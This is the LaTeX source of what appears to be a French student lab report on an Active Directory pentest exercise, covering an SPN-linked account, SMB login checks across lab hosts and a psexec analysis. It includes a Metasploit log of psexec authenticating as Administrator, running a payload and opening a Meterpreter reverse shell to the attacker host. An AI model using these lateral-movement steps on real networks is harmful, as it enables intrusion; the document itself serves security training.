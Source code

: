 \documentclass{extarticle} %
\begin{document}
    \subsection{Quel est le compte du domaine associé à ce SPN ?}
    Le compte associé à ce SPN est \texttt{adm-sql}.

    \subsection{Est-ce que ce compte est utilisé sur l’une des machines (utilisez \textit{smb\_login}) ?}
    Ce compte est utilisé sur les machines 172.22.4.2, 172.22.4.4, 172.22.4.5, 172.22.4.6, 172.22.4.7.
    Sur la machine 172.22.4.4, c'est un compte \texttt{Administrator}.

    \begin{figure}[H]
        \centering
        \includegraphics[scale=0.3]{images/adm-sql-admin-4.png}
        \caption{Compte Administrator sur 172.22.4.4}
    \end{figure}

    \subsection{Analyser les logs au moment de l’attaque et décrivez comment psexec fonctionne ?}
    Lorsq'on utilise \texttt{psexe} on obtient le log suivant :

    \begin{verbatim}
    [*] Started reverse TCP handler on 172.22.3.151:4444
    [*] 172.22.4.5:445 - Connecting to the server...
    [*] 172.22.4.5:445 - Authenticating to 172.22.4.5:445 as user 'Administrator'...
    [*] 172.22.4.5:445 - Selecting PowerShell target
    [*] 172.22.4.5:445 - Executing the payload...
    [+] 172.22.4.5:445 - Service start timed out, OK if running a command or non-service
    executable...
    [*] Sending stage (206403 bytes) to 172.22.4.5
    [*] Meterpreter session 8 opened (172.22.3.151:4444 -> 172.22.4.5:58477) at 2019-05-14
    17:15:33 +0000
    \end{verbatim}
\end{document}
